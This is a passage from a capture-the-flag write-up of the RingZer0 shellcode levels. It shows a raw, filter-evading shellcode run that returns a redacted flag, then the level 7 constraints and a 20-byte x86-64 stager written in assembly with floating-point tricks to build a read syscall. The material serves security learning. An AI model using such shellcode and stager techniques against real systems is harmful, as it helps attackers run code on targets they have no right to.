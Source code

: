Let's run it!

```
shellcode>\x31\xc9\xeb\x3f\x10\x10\x10\x11\x20\x15\x1f\x2b\x82\x1a\x11\x10\x10\x10\x10\x89\x10\x11\x10\x10\x10\x10\x10\x11\x10\x10\x10\x10\x3f\xfe\xf4\xfe\x38\x21\xb0\x3f\x3f\x3f\x3f\x3f\xfd\x3f\xfe\xf4\xa0\xf2\x37\xfe\xe7\xfe\xf4\x37\x87\x38\x86\xfe\xf5\x9f\xf1\x3f\x20\x11\x10\x90\x31\xdb\xb1\x08\xb3\x10\xdb\x04\x98\xfe\xcb\xda\x04\x88\xdb\x1c\x88\xe2\xf3\xeb\xab
    Shellcode received...
    Shellcode length (89) bytes.

    Success: Executing shellcode...

/flag/level6.flag^@
FLAG-<redacted>
Connection to shellcode.ringzer0team.com closed.
```

Got it with *one* byte to spare!

Level 7: Ultra-Violence
-----------------------

OK, I thought the last level was pretty hard, having to resort to floating point instructions to carve out a shellcode. I was shocked to see the description for level 7:

```
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x30 to \x81" max size 40 bytes.
For an unknown funky reason I decide to add couple of random bytes in your buffer after the twentieth character.
Random chunk of bytes size is based on "rand() % 20"
```

Waaaaat. A shit-ton of bad chars, plus it seems I couldn't trust whatever I sent after the twentieth bytes. This effectively cut my shellcode size to *just twenty bytes*. I could never send in a stage0 that would carve out the real shellcode, as there was simply not enough space. Instead, my stage 0 would have to read in the shellcode from the socket directly. So, I needed a way to call `syscall` to read from stdin. However, `0x0f` and `0x05` are badchars. Furthermore, where exactly would I store this newly read shellcode?

Here's what I came up with. I'll dump out stage 0 and explain it, going bit by bit (just as I did when making this monstrosity). This assembles to *exactly* 20 bytes:

```
bits 64
_start:                 
add al, _syscall-_start
fldz                    
fsub dword [rax]        
fistp dword [rax]       
sbb esi, esi            
xchg esi, edi           
sbb esi, esi            
mov dl, 0xf0            
_syscall:
dd -84907592.0          
```
